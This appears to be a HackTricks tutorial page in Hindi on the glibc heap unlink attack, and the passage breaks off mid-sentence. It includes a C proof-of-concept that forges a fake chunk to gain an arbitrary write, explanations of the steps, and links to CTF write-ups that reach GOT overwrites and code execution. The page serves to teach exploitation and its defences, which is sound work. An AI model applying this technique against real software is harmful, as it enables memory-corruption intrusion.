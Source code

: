 # अनलिंक हमला

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **अपने हैकिंग ट्रिक्स साझा करें, HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके।

</details>

## मूल जानकारी

जब यह हमला खोजा गया था, तो यह अधिकांश वक्त एक डब्ल्यूडब्ल्यूडब्ल्यू (Write What Where) को संभव बनाता था, हालांकि, कुछ **जांचें जोड़ दी गई थीं** जिससे हमले के नए संस्करण को और अधिक रोचक और **अधिक जटिल और बेकार** बना दिया गया।

### कोड उदाहरण:

<details>

<summary>कोड</summary>
```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

// Altered from https://github.com/DhavalKapil/heap-exploitation/tree/d778318b6a14edad18b20421f5a06fa1a6e6920e/assets/files/unlink_exploit.c to make it work

struct chunk_structure {
size_t prev_size;
size_t size;
struct chunk_structure *fd;
struct chunk_structure *bk;
char buf[10];               // padding
};

int main() {
unsigned long long *chunk1, *chunk2;
struct chunk_structure *fake_chunk, *chunk2_hdr;
char data[20];

// First grab two chunks (non fast)
chunk1 = malloc(0x8000);
chunk2 = malloc(0x8000);
printf("Stack pointer to chunk1: %p\n", &chunk1);
printf("Chunk1: %p\n", chunk1);
printf("Chunk2: %p\n", chunk2);

// Assuming attacker has control over chunk1's contents
// Overflow the heap, override chunk2's header

// First forge a fake chunk starting at chunk1
// Need to setup fd and bk pointers to pass the unlink security check
fake_chunk = (struct chunk_structure *)chunk1;
fake_chunk->size = 0x8000;
fake_chunk->fd = (struct chunk_structure *)(&chunk1 - 3); // Ensures P->fd->bk == P
fake_chunk->bk = (struct chunk_structure *)(&chunk1 - 2); // Ensures P->bk->fd == P

// Next modify the header of chunk2 to pass all security checks
chunk2_hdr = (struct chunk_structure *)(chunk2 - 2);
chunk2_hdr->prev_size = 0x8000;  // chunk1's data region size
chunk2_hdr->size &= ~1;        // Unsetting prev_in_use bit

// Now, when chunk2 is freed, attacker's fake chunk is 'unlinked'
// This results in chunk1 pointer pointing to chunk1 - 3
// i.e. chunk1[3] now contains chunk1 itself.
// We then make chunk1 point to some victim's data
free(chunk2);
printf("Chunk1: %p\n", chunk1);
printf("Chunk1[3]: %x\n", chunk1[3]);

chunk1[3] = (unsigned long long)data;

strcpy(data, "Victim's data");

// Overwrite victim's data using chunk1
chunk1[0] = 0x002164656b636168LL;

printf("%s\n", data);

return 0;
}

```
</details>

* हमला काम नहीं करता अगर tcaches का उपयोग किया जाता है (2.26 के बाद)

### लक्ष्य

यह हमला एक चंक के लिए एक पॉइंटर को अपने आप से 3 पते पहले पॉइंट करने की अनुमति देता है। यदि इस नए स्थान (पॉइंटर के स्थान के आस-पास) में दिलचस्प चीजें हैं, जैसे अन्य नियंत्रण वाली आवंटन / स्टैक..., तो उन्हें पढ़ना / ओवरराइट करना संभव है ताकि अधिक नुकसान पहुंचाया जा सके।

* यदि यह पॉइंटर स्टैक में स्थित था, क्योंकि अब यह अपने आप से 3 पते पहले पॉइंट कर रहा है और उपयोगकर्ता संभावित रूप से इसे पढ़ सकता है और संशोधित कर सकता है, तो संभावना है कि संवेदनशील जानकारी को स्टैक से लीक किया जा सकता है या यहां तक कि वापसी पता (शायद) को छूने के बिना कैनरी को छूने
* CTF उदाहरणों के लिए, यह पॉइंटर अन्य आवंटन के पॉइंटरों के एक एरे में स्थित है, इसलिए, इसे 3 पते पहले पॉइंट करना और पढ़ने और लिखने की क्षमता होने के कारण, अन्य पॉइंटरों को अन्य पतों पर पॉइंट करना संभव है।\
जैसे ही उपयोगकर्ता अन्य आवंटनों को पढ़ / लिख सकता है, वह सूचना लीक कर सकता है या अन्य पतों में नए पते ओवरराइट कर सकता है (जैसे कि GOT में).

### आवश्यकताएं

* कुछ नियंत्रण में एक स्मृति (उदाहरण के लिए स्टैक) में एक कपल चंक बनाने के लिए कुछ गुणों को देना।
* पॉइंटर्स को नकली चंक के सेट करने के लिए स्टैक लीक।

### हमला

* कुछ चंक हैं (chunk1 और chunk2)
* हमलावर chunk1 की सामग्री और chunk2 के हेडर को नियंत्रित करता है।
* chunk1 में हमलावर एक नकली चंक की संरचना बनाता है:
* सुनिश्चित करने के लिए कि सुरक्षा उपायों को उलटने से बचने के लिए कि क्षेत्र `size` सही है: `corrupted size vs. prev_size while consolidating`
* और नकली चंक के फील्ड `fd` और `bk` उस स्थान की ओर पॉइंट कर रहे हैं जहां chunk1 पॉइंटर स्टोर किया गया है जिसमें -3 और -2 के ऑफसेट हैं इसलिए `fake_chunk->fd->bk` और `fake_chunk->bk->fd` मेमोरी (स्टैक) की स्थिति को पॉइंट करते हैं जहां वास्तविक chunk1 पता स्थित है:

<figure><img src="../../.gitbook/assets/image (1245).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

* चंक2 के हेडर संशोधित किए गए हैं ताकि सूचित किया जा सके कि पिछला चंक उपयोग में नहीं है और आकार नकली चंक में शामिल है।
* जब दूसरा चंक मुक्त होता है तो यह नकली चंक अनलिंक हो जाता है:
* `fake_chunk->fd->bk` = `fake_chunk->bk`
* `fake_chunk->bk->fd` = `fake_chunk->fd`
* पहले यह बनाया गया था कि `fake_chunk->fd->bk` और `fake_chunk->fd->bk` एक ही स्थान पर पॉइंट करें (जहां `chunk1` स्टोर किया गया था, इसलिए यह एक मान्य लिंक्ड सूची थी)। क्योंकि **दोनों एक ही स्थान पर पॉइंट कर रहे हैं** केवल आखिरी वाला (`fake_chunk->bk->fd = fake_chunk->fd`) **प्रभाव** डालेगा।
* यह **स्टैक में चंक1 के पॉइंटर को अड्रेस (या बाइट्स) ओवरराइट करेगा जो स्टैक में 3 पते पहले स्टोर किया गया था**।
* इसलिए, यदि एक हमलावर फिर से चंक1 की सामग्री को नियंत्रित कर सकता है, तो वह **स्टैक के अंदर लिख सकता है** जिससे संभावित रूप से कैनरी को छोड़कर वापसी पता ओवरराइट कर सकता है और स्थानीय चरों के मान और पॉइंट को संशोधित कर सकता है। फिर से चंक1 के पते को स्टैक में एक विभिन्न स्थान पर ओवरराइट करने की संभावना है जहां यदि हमलावर फिर से चंक1 की सामग्री को नियंत्रित कर सकता है तो वह कहीं भी लिख सकता है।
* ध्यान दें कि यह संभव था क्योंकि **पते स्टैक में स्टोर किए गए थे**। जो खतरा और शोषण किया जा सकता है यह **पते कहां स्टोर किए गए हैं** पर निर्भर कर सकता है।

<figure><img src="../../.gitbook/assets/image (1246).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

## संदर्भ

* [https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit](https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit)
* यद्यपि CTF में एक अनलिंक हमला पाना अजीब होगा, लेकिन यहां आपको कुछ व्राइटअप्स मिलेंगे जहां इस हमले का उपयोग किया गया था:
* CTF उदाहरण: [https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html](https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html)
* इस उदाहरण में, स्टैक के बजाय malloc'ed पतों का एक एरे है। अनलिंक हमला किया गया है ताकि यहां एक चंक आवंटित किया जा सके, इसलिए malloc'ed पतों के एरे के पॉइंटर्स को नियंत्रित करने में सक्षम होने के लिए। फिर, एक और कार्यक्षमता है जो चंक की सामग्री को संशोधित करने की अनुमति देती है, जिससे पते GOT करने के लिए फ़ंक्शन पतों को ओवरराइट करने के लिए लीक्स और RCE प्राप्त करने की अनुमति हो।
* एक और CTF उदाहरण: [https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html](https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html)
* पिछले उदाहरण की तरह, आवंटनों के पतों का एक एरा है। यह संभव है कि एक अनलिंक हमला किया जाए ताकि पहले आवंटन का पता एक कुछ स्थानों पहले एरे शुरू होने से पहले कर सकता है और फिर इस आवंटन को नए स्थान पर ओवरराइट कर सकता है। इसलिए, अन्य आवंटनों के पॉइंटर्स को GOT करने के लिए पॉइंट करने के लिए ओवरराइट किया जा सकता है, और फिर इसे एक वन गैजेट के पते के साथ ओवरराइट करने के लिए atoi GOT को ओवरराइट करने की संभावना है।
* एक और CTF उदाहरण जिसमें कस्टम malloc और मुक्त कार्यों का उपयोग करते हैं जो अनलिंक हमले के बहुत ही समान एक दुर्बलता का शोषण करते हैं: [https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html](https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html)
* एक ओवरफ्लो है जो कस्टम malloc के FD और BK पॉइंटर्स को नियंत्रित करने की अनुमति देता है जो (कस्टम) मुक्त किया जाएगा। इसके अतिरिक्त, हीप में exec बिट है, इस
